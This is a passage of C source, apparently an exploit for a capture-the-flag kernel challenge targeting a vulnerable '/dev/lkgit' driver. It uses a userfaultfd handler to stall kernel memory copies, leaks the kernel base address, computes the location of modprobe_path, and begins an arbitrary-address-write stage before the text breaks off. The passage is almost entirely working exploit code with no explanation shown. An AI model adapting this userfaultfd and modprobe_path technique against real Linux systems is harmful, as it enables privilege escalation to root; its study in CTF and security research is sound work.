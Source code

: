```c
    if (uffd == -1)
        perr("[-] create uffd failed");

    // enable uffd object
    uffdio_api.api = UFFD_API;
    uffdio_api.features = 0;
    if (ioctl(uffd, UFFDIO_API, &uffdio_api) == -1)
        perr("[-] enable uffd failed");

    // allocate memory for uffd
    addr = (char *) mmap((void *) base_addr, size, PROT_READ | PROT_WRITE,
                               MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
    if (addr == MAP_FAILED)
        perr("[-] mmap failed");
    printf("[+] mmap address = %p\n", addr);

    // register uffd
    uffdio_register.range.start = (unsigned long) addr + offset;
    uffdio_register.range.len = size;
    uffdio_register.mode = UFFDIO_REGISTER_MODE_MISSING;
    if (ioctl(uffd, UFFDIO_REGISTER, &uffdio_register) == -1)
        perr("[-] uffd register failed");

    // create monitor thread
    tid = pthread_create(&thr, NULL, uf_handler, (void *) uffd);
    if (tid != 0)
        perr("[-] create thread failed");
}
        
// 0xffffffffc0000000 - lkgit
int main()
{
    hobj.content = "TEST";
    log_object *lobj;

    // leak kernel base
    setup_uf(0x77770000, 0x4000, 0x1000);
    lkgit_fd = open("/dev/lkgit", O_RDWR);
    hobj.content = "TEST";
    hobj.message = "OWO";
    hash_obj();
    lobj = (log_object *) (addr + page_size - HASH_SIZE - FILE_MAXSZ);
    printf("[*] lobj point to: %p\n", lobj);
    getc(stdin);
    memcpy(lobj->hash, hobj.hash, HASH_SIZE);
    memcpy(lobj->content, hobj.content, FILE_MAXSZ);
    get_obj(lobj);
    showgx((unsigned long *) lobj, sizeof(log_object));
    kernel_base = *((unsigned long *) lobj) - 0x1adc20;
    printf("[+] kernel_base: 0x%016lx\n", kernel_base);
    modprobe_path += kernel_base;
    printf("[+] modprobe_path: 0x%016lx\n", modprobe_path);

    // AAW
    hobj.content = "QQ";
    hobj.message = "OWO";
    hash_obj();
    lobj = (log_object *) (addr + page_size*2 - HASH_SIZE - FILE_MAXSZ);
    printf("[*] lobj point to: %p\n", lobj);
    getc(stdin);
    memcpy(lobj->hash, hobj.hash, HASH_SIZE);
    memcpy(lobj->content, hobj.content, FILE_MAXSZ);
    amend_msg(lobj);
```